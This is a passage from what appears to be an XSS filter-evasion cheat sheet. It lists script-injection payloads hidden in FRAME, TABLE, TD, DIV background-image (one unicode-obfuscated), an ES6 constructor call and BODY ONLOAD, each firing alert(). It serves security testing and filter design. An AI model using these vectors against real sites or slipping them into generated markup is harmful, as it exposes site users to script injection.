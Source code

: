 #### FRAME

Frames have the same sorts of XSS problems as iframes

~~~
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
~~~


### TABLE

~~~
<TABLE BACKGROUND="javascript:alert('XSS')">
~~~

#### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

~~~
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
~~~



### DIV

#### DIV background-image

~~~
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
~~~

#### DIV background-image with unicoded XSS exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

~~~
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
~~~







### ECMAScript 6

~~~
Set.constructor`alert\x28document.domain\x29```
~~~


### BODY tag

~~~
<BODY ONLOAD=alert('XSS')>
~~~

